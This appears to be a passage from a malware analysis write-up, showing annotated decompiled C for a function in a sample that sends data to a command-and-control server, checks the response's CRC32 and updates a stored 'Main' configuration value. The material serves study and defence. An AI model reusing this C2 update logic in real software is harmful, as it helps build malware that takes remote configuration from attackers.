 ![Main](hxd4.png)

If we cross-reference on this string, we come across `FUN_180003880`.

```c
void FUN_180003880(undefined8 param_1,undefined4 *param_2)
{
    /* ... */

    uVar2 = 45A0FCD0.DLL::Ordinal_16();
    if ((uVar2 & 8) == 0) {
        // Read value 0xa0a (= "Timerversion").
        uVar2 = Ordinal_78(0xa0a,&local_res20,local_res18);
        if (uVar2 == 0) {
            /* ... */
        }

        // Send data to C2.
        iVar1 = 45A0FCD0.DLL::Ordinal_11(GLOBAL_PTR_2 ^ 0x8bd6287b,iVar3,1,0,0,0,&response_data,&response_size);
        if (iVar1 == 0) {

            // Calculate CRC32 of response.
            uVar2 = 8576B0D0.DLL::Ordinal_8(response_data,local_res18[0]);
            if (uVar2 != iVar3) {
                // Update MAIN value.
                uVar2 = FUN_1800075c0(&"Main" + BSS_RVA,response_data,response_size,uVar2);
                /* ... */
            }

            // HeapFree
            8576B0D0.DLL::Ordinal_11(local_res20);
        }
        else {
            if (iVar1 != 0x10d2) {
                45A0FCD0.DLL::Ordinal_21();
            }
        }
    }
    return;
}
```
